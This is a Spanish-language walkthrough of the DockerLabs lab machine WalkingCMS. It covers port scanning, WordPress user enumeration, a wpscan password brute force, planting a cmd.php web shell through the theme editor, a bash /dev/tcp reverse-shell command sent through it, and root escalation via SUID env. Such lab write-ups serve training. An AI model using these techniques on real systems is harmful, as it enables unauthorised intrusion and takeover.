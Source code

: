 # [WalkingCMS](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh walkingcms.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/50801b43-05e7-4999-91d4-d23412e03e67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como. podemos ver una página por defecto de Apache2, por lo que haremos un fuzzing para encontrar posible directorios de la siguiente forma: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2/wordpress -x txt,sql,py,js,php,html`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8c202d25-653f-4177-a6fe-2344be418e8f)

<br>

Nos reporta que existe un directorio dentro de la web llamado `/wordpress`, por lo que entendemos que dicho servidor web está alojado en wordpress.
<br>

Una vez que sabemos que tiene un wordpress, pasaremos a usar la herramienta `wp-scan` la cual nos permite identificar posible vulnerabilidades a través de plugins, enumeración de usuarios y hacer un ataque de fuerza bruta al panel de login. Para usar dicha herramienta pondremos los siguiente: `wpscan --url http://172.17.0.2/wordpress --enumerate u, pv`, con la cual obtendremos que existe un usuario llamado `mario`:<br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`--enumerate u, pv` ⮞ le indicamos que nos enumere posible usuarios con la `u` y plugins con la `pv`. <br> 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/96d9d3cc-7e1f-4621-b9f9-cd0ec4350bfe)

<br>
<br>

## Fuerza Bruta
Una vez conocemos el posible usuario haremos un ataque de fuerza bruta al panel de login que sería `/wp-admin`. Dicho ataque de fuerza bruta se podría hacer con burpsuite pero en este caso yo usaré wpscan ya que va más rápido, por lo que pondremos lo siguiente: `wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario`. <br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`-passwords` ⮞ especificamos la ruta del diccionario en este caso sería el [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br> 
`-usernames` ⮞ especificamos los usuarios en este caso solo es `mario`.
<br>

Nos reporta lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9874aab1-121f-4d9d-91b0-ecd7e24b3f63)

<br>

Ahora volvemos al panel de login que estaría en la siguiente ruta: `http://172.17.0.2/wordpress/wp-admin/`, nos logeamos con las credenciales obtenidas `(mario:love)`. Buscando por el panel de admin una posible forma de acceder a la máquina WalkingCMS observamos que si pinchamos en la parte de `Apariencia > Theme Code Editor` se nos abrirá un editor de código para los temas.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b0ef60eb-201e-43e4-812e-f7aaaeccc9b8)

<br>

Pinchando en el botón de `Create` de la derecha nos aparecerá el siguiente pop-up para crear um archivo/carpeta, creamos un archivo de nombre `cmd.php`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/684232e5-7e9b-4bae-b38f-48f1640beef6)

<br>

Pasamos a editar dicho archivo `.php` que tendrá el siguiente contenido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/563a2366-2256-48c9-818c-a56d2b398b3a)

<br>

Lo que debemos hacer ahora es acceder a dicho archivo a través de la URL, para ello nos iremos a la ruta que nos salía al crear un archivo, que sería `wordpress/wp-content/themes/twentytwentytwo/`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/741a0428-f358-45f0-b695-c2ae180839fe)

<br>

Y lo que queremos es acceder al archivo de nombre `cmd.php` por lo que introduciremos en la URL lo siguiente: `http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php`, y listo conseguiremos RCE (Remove Code Execution) pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ebca85b8-2f72-4f24-bdd2-90a04be442d1)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af76da05-55f2-4767-b1a9-15137429dc65)


## Escala de Privilegios
Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>
6-. `stty rows 49 cols 210`<br>
<br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6ba29ccd-363b-4722-a2db-3336b70e3121)

<br>

Vemos que tan solo se encuentra el usuario `root`, por lo que entendemos que vamos a escalar privilegios directamente.
<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo, de hecho no esta ni instalado.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/76c547c0-de2e-4609-9734-fd31077927fa)

<br>

Hacemos la siguiente comprobación para ver la posible escalada ejecutando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/env`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3f30a8f4-66fd-4f0e-88f1-db7e0e97d629)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de SUID de env, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d3b33fc1-59de-43ba-936e-783c7673af92)

<br>

Por lo que probaremos a ejecutarlo en la máquina víctima poniendo `/usr/bin/env /bin/bash -p`
<br>

Comprobamos que nos ha cambiado el terminal, y listo si ya somos `root` y si hacemos `whoami` para comprobarlo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ec54c601-2dd3-4c56-a7a1-b9f481dec655)
